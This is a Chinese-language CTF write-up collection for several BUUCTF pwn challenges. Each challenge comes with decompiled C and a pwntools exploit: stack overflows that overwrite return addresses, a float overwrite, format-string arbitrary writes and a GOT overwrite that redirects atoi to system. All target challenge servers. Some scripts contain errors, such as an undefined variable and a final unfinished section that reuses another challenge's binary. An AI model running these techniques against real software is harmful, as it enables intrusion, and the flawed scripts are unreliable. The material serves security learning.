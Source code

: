 # buuctf-pwn




.. note::

   This .




## warmup_csaw_2016



```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets(v5);
}
```



```python
from pwn import *

sh = remote('node4.buuoj.cn', 25891)
sh.sendline("A"*(0x40+8)+p64(0x40060D))
sh.interactive()
```





## ciscn_2019_n_1



+ amd64-64-little、NX
+ 考察点：
  + 十六进制的存储
  + ret2text覆盖返回地址



```c
int func()
{
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    return system("cat /flag");
  else
    return puts("Its value should be 11.28125");
}
```





(一)栈溢出写入浮点数

浮点数的小数点表示法是直观的表现形式，实际在计算机中以十六进制（二进制）的指定形式表示。

+ 十进制浮点数 => 二进制形式 => 十六进制形式

由于涉及到判断是否相等的操作，那么11.28125的十六进制形式也会在程序中存储。

> ```c
> 11.28125 转换为二进制为 1011.01001
> 11.28125 在计算机内部储存为 0100 0001 0011 0100 1000 0000 0000 0000
> 即11.28125 ==> 0x41348000
> ```



（二）栈溢出写入返回地址

让gets函数直接返回到system(cat flag)代码处，跳过if条件判断。

```python
from pwn import *
r=remote("node4.buuoj.cn",28863)

ret_arr = 0x4006BE
float_num = 0x41348000 
payload1 = 'a'*(0x30 - 0x4) + p64(float_num) 
payload2 = 'a'*(0x30 + 8) + p64(ret_arr)
p.sendline(payload1)
p.interactive()
```





## pwn1_sctf_2016 [源码没有读懂]





fgets看似限制了输入字符数为32，但后面存在字符替换操作。每单个字符`I`都会被替换为三个字符`You` 。而变量s的大小为60，可以输入20个`I`，替换后就得到了60个字符，利用栈溢出覆盖ebp和返回地址为get_flag函数。





```c
int vuln()
{
  const char *v0; // eax
  char s[32]; // [esp+1Ch] [ebp-3Ch] BYREF
  char v3[4]; // [esp+3Ch] [ebp-1Ch] BYREF
  char v4[7]; // [esp+40h] [ebp-18h] BYREF
  char v5; // [esp+47h] [ebp-11h] BYREF
  char v6[7]; // [esp+48h] [ebp-10h] BYREF
  char v7[5]; // [esp+4Fh] [ebp-9h] BYREF

  printf("Tell me something about yourself: ");
  fgets(s, 32, edata);
  std::string::operator=(&input, s);
  std::allocator<char>::allocator(&v5);
  std::string::string(v4, "you", &v5);
  std::allocator<char>::allocator(v7);
  std::string::string(v6, "I", v7);
  replace((std::string *)v3);
  std::string::operator=(&input, v3, v6, v4);
  std::string::~string(v3);
  std::string::~string(v6);
  std::allocator<char>::~allocator(v7);
  std::string::~string(v4);
  std::allocator<char>::~allocator(&v5);
  v0 = (const char *)std::string::c_str((std::string *)&input);
  strcpy(s, v0);
  return printf("So, %s\n", s);
}
```



![在这里插入图片描述](https://img-blog.csdnimg.cn/01117078187747439192eab955af9598.png)



```
from pwn import *
r=remote("node4.buuoj.cn",25145)
#0x3c=60 
#every "I" will be replaced into "you", need 60/3=20 I
r.sendline("I"*20+"B"*4+p32(0x08048F0D))
r.interactive()
```







## jarvisoj_level0





```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  write(1, "Hello, World\n", 0xDuLL);
  return vulnerable_function();
}
ssize_t vulnerable_function()
{
  char buf[128]; // [rsp+0h] [rbp-80h] BYREF

  return read(0, buf, 0x200uLL);
}
int callsystem()
{
  return system("/bin/sh");
}
```





```
from pwn import *
r=remote("node4.buuoj.cn",25007)
backdoor=0x400596
r.sendline("A"*(0x80+8)+p64(backdoor))
r.interactive()
```



## [第五空间2019 决赛]PWN5



+ Canary
+ i386-32-little
+ NX



num_addr=0x804C044 	#4字节

p32(num_addr)+"%10$n"

输入字符串的内容所在地址，相对格式化字符串所在地址的偏移为第10个参数



思路：

+ 格式化字符串漏洞任意地址写入，覆盖read的返回地址为system执行地址
+ 修改num的大小



**【疑问】为什么要写入四字节的数据**

![img](https://img-blog.csdnimg.cn/1bb32ec175a6481fb888fe6ebae7e299.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBATF9feQ==,size_19,color_FFFFFF,t_70,g_se,x_16)

```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
addr = 0x0804C044
#地址，也就相当于可打印字符串，共16byte
payload = p32(addr)+p32(addr+1)+p32(addr+2)+p32(addr+3)
#开始将前面输出的字符个数输入到地址之中，hhn是单字节输入，其偏移为10
#%10$hhn就相当于读取栈偏移为10处的数据当做地址，然后将前面的字符数写入到地址之中
payload += "%10$hhn%11$hhn%12$hhn%13$hhn"
p.sendline(payload)
# 0x10101010  4 * len(p32()) = 0x10
p.sendline(str(0x10101010))
p.interactive()
```



+ fmtstr：任意地址写入，修改num的值

```
from pwn import *
sh = remote('node4.buuoj.cn',28526)
unk_804C044 = 0x804C044
payload = fmtstr_payload(10, {unk_804C044: 0x1})
sh.sendline(payload)
sh.sendline(str(0x1))
sh.interactive()
```



```
#coding=utf-8
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
atoi_got = elf.got["atoi"]
system_plt = elf.plt["system"]
payload = fmtstr_payload(10,{atoi_got:system_plt})
p.sendline(payload)
p.sendline("/bin/sh\x00")  #!
p.interactive()
```





## 

思路：利用gets栈溢出泄露puts函数内存地址，从而确定libc版本，得到system("/bin/sh")



为了绕过while循环退出条件`v0>=strlen(s)` ，可以构造"\0"字符截断，作为溢出padding的一部分。

![img](https://img-blog.csdnimg.cn/20210322184607848.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80NTU1NjQ0MQ==,size_16,color_FFFFFF,t_70)



puts@plt(puts@got) -> main 

总结做题中的错误：

+ 忘记64位需要堆栈平衡，需要使用gadget来构造参数
+ 没有看懂程序执行逻辑，没有看到while循环中的语句，如果不截断字符将会一直进行循环。

```
from pwn import *

p = remote('node4.buuoj.cn',28526)
elf = ELF("5thspace2019pwn5")
puts_plt=elf.plt["puts"]
puts_got=elf.got["puts"]
main_addr=elf.sym["main"]
p.sendline("1")
p.recvuntil("\n")
p.sendline("A"*(0x50+8)+p64(puts_plt)+p64(puts_got)+p64(main_addr))




```













































